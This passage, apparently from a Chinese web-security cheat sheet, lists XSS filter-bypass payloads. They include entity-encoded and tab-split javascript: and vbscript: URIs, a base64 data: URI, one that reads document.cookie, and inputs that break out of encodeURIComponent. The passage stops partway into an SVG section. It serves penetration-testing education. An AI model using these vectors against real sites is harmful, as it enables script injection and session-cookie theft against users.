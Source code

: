 #### 变换

使用HTML实体URL编码绕过黑名单，href里会自动实体解码，如果都失败了，可以尝试使用vbscript在IE10以下都有效，或者使用data协议。

#### JavaScript变换

使用javascript协议时可使用的例子：

```
javascript&#00058;alert(1)
javaSCRIPT&colon;alert(1)
JaVaScRipT:alert(1)
javas&Tab;cript:\u0061lert(1);
javascript:\u0061lert&#x28;1&#x29
javascript&#x3A;alert&lpar;document&period;cookie&rpar;

```

#### Vbscript变换

```
vbscript:alert(1);
vbscript&#00058;alert(1);
vbscr&Tab;ipt:alert(1)"
Data URl
data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==

```

#### JSON

当你的输入会在encodeURIComponent当中显示出来的时候，很容易插入xss代码了

```
encodeURIComponent('userinput')

```

userinput处可控，测试代码：

```
-alert(1)-
-prompt(1)-
-confirm(1)-

```

最终结果：

```
encodeURIComponent("-alert(1)-")
encodeURIComponent("-prompt(1)-")

```

#### SVG标签

当返回结果在svg标签中的时候，会有一个特性
